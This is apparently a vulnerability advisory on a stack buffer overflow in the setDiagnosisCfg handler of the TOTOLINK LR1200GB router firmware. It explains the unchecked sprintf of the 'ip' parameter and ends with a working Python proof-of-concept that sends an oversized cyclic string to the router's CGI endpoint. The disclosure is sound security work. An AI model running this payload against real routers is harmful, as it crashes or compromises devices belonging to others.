


# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has stack buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `setDiagnosisCfg` function of `cstecgi.cgi`. The value of the `ip` parameter will be concatenated to local variable `str` by `sprintf`. The `Validity_check` function is solely used to prevent command injection. Due to the lack of length validation by the developer on `ip`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.



`Validity_check` function


## POC
```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "ip": "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaaxzaaybaaycaaydaayeaayfaaygaayhaayiaayjaaykaaylaaymaaynaayoaaypaayqaayraaysaaytaayuaayvaaywaayxaayyaayzaazbaazcaazdaazeaazfaazgaazhaaziaazjaazkaazlaazmaaznaazoaazpaazqaazraazsaaztaazuaazvaazwaazxaazyaazzababacabadabaeabafabagabahabaiabajabakabalabamabanabaoabapabaqabarabasabatabauabavabawabaxabayabazabbbabbcabbdabbeabbfabbgabbhabbiabbjabbkabblabbmabbnabboabbpabbqabbrabbsabbtabbuabbvabbwabbxabbyabbzabcbabccabcdabceabcfabcgabchabciabcjabckabclabcmabcnabcoabcpabcqabcrabcsabctabcuabcvabcwabcxabcyabczabdbabdcabddabdeabdfabdgabdhabdiabdjabdkabdlabdmabdnabdoabdpabdqabdrabdsabdtabduabdvabdwabdxabdyabdzabebabecabedabeeabefabegabehabeiabejabekabelabemabenabeoabepabeqaberabesabetabeuabevabewabexabeyabezabfbabfcabfdabfeabffabfgabfhabfiabfjabfkabflabfmabfnabfoabfpabfqabfrabfsabftabfuabfvabfwabfxabfyabfzabgbabgcabgdabgeabgfabggabghabgiabgjabgkabglabgmabgnabgoabgpabgqabgrabgsabgtabguabgvabgwabgxabgyabgzabhbabhcabhdabheabhfabhgabhhabhiabhjabhkabhlabhmabhnabhoabhpabhqabhrabhsabhtabhuabhvabhwabhxabhyabhzabibabicabidabieabifabigabihabiiabijabikabilabimabinabioabipabiqabirabisabitabiuabivabiwabixabiyabizabjbabjcabjdabjeabjfabjgabjhabjiabjjabjkabjlabjmabjnabjoabjpabjqabjrabjsabjtabjuabjvabjwabjxabjyabjzabkbabkcabkdabkeabkfabkgabkhabkiabkjabkkabklabkmabknabkoabkpabkqabkrabksabktabkuabkvabkwabkxabkyabkzablbablcabldableablfablgablhabliabljablkabllablmablnabloablpablqablrablsabltabluablvablwablxablyablzabmbabmcabmdabmeabmfabmgabmhabmiabmjabmkabmlabmmabmnabmoabmpabmqabmrabmsabmtabmuabmvabmwabmxabmyabmzabnbabncabndabneabnfabngabnhabniabnjabnkabnlabnmabnnabnoabnpabnqabnrabnsabntabnuabnvabnwabnxabnyabnzabobabocabodaboeabofabogabohaboiabojabokabolabomabonabooabopaboqaborabosabotabouabovabowaboxaboyabozabpbabpcabpdabpeabpfabpgabphabpiabpjabpkabplabpmabpnabpoabppabpqabprabpsabptabpuabpvabpwabpxabpyabpzabqbabqcabqdabqeabqfabqgabqhabqiabqjabqkabqlabqmabqnabqoabqpabqqabqrabqsabqtabquabqvabqwabqxabqyabqzabrbabrcabrdabreabrfabrgabrhabriabrjabrkabrlabrmabrnabroabrpabrqabrrabrsabrtabruabrvabrwabrxabryabrzabsbabscabsdabseabsfabsgabshabsiabsjabskabslabsmabsnabsoabspabsqabsrabssabstabsuabsvabswabsxabsyabszabtbabtcabtdabteabtfabtgabthabtiabtjabtkabtlabtmabtnabtoabtpabtqabtrabtsabttabtuabtvabtwabtxabtyabtzabubabucabudabueabufabugabuhabuiabujabukabulabumabunabuoabupabuqaburabusabutabuuabuvabuwabuxabuyabuzabvbabvcabvdabveabvfabvgabvhabviabvjabvkabvlabvmabvnabvoabvpabvqabvrabvsabvtabvuabvvabvwabvxabvyabvzabwbabwcabwdabweabwfabwgabwhabwiabwjabwkabwlabwmabwnabwoabwpabwqabwrabwsabwtabwuabwvabwwabwxabwyabwzabxbabxcabxdabxeabxfabxgabxhabxiabxjabxkabxlabxmabxnabxoabxpabxqabxrabxsabxtabxuabxvabxwabxxabxyabxza",
    "topicurl": "setDiagnosisCfg",
    "token": "00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```